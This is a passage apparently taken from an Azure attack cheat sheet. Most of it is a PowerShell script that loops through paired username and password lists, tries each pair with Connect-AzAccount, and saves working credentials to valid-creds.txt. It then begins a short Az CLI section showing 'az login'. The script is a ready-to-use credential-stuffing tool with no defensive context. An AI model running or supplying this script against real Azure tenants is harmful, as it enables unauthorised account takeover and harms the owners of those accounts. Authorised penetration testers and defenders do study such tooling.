 ```powershell
$userlist = Get-Content userlist.txt
$passlist = Get-Content passlist.txt
$linenumber = 0

$count = $userlist.count

foreach($line in $userlist){

    $user = $line
    $pass = ConvertTo-SecureString $passlist[$linenumber] -AsPlainText -Force
    $current = $linenumber + 1
    Write-Host -NoNewline ("`r[" + $current + "/" + $count + "]" + "Trying: " + $user + " and " + $passlist[$linenumber])
    $linenumber++
    $Cred = New-Object System.Management.Automation.PSCredential ($user, $pass)

    try
    {
        Connect-AzAccount -Credential $Cred -ErrorAction Stop -WarningAction SilentlyContinue
        Add-Content valid-creds.txt ($user + "|" + $passlist[$linenumber - 1])
        Write-Host -ForegroundColor green ("`nGot something here: $user and " + $passlist[$linenumber - 1] )
    }
    catch
    {
        $Failure = $_.Exception
        if ($Failure -match "ID3242")
        {     
            continue
        }
        else
        {
            Write-Host -ForegroundColor green ("`nGot something here: $user and " + $passlist[$linenumber - 1] )
            Add-Content valid-creds.txt ($user + "|" + $passlist[$linenumber - 1])
            Add-Content valid-creds.txt $Failure.Message
            Write-Host -ForegroundColor red $Failure.Message
        }
    }
    
}
```

### Az CLI Tool

#### Authentication

```bash
az login
```

Login to the account without subscription access
